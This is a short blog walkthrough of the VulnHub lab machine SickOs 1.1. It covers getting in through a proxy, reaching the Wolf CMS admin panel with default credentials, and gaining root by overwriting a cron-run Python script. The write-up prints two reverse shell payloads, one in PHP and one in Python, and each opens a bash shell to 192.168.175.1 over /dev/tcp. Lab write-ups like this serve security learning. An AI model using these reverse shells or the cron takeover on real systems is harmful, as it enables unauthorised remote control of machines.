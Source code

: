 ```yaml
---
published: false
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
![]({{site.baseurl}}/images/sickos1.png)

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

![]({{site.baseurl}}/images/sickos2.png)

I succeed and noticed some simple website. I tried robots.txt and found that there is Wolf CMS run under /wolfcms

![]({{site.baseurl}}/images/sickos3.png)

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

![]({{site.baseurl}}/images/sickos4.png)

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunatelly I had permission to overwrite this file.

![]({{site.baseurl}}/images/sickos5.png)

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite script with uploaded one, then I ran netcat on port 9999 and waited one minute until I got root shell.

![]({{site.baseurl}}/images/sickos6.png)

![]({{site.baseurl}}/images/sickos7.png)
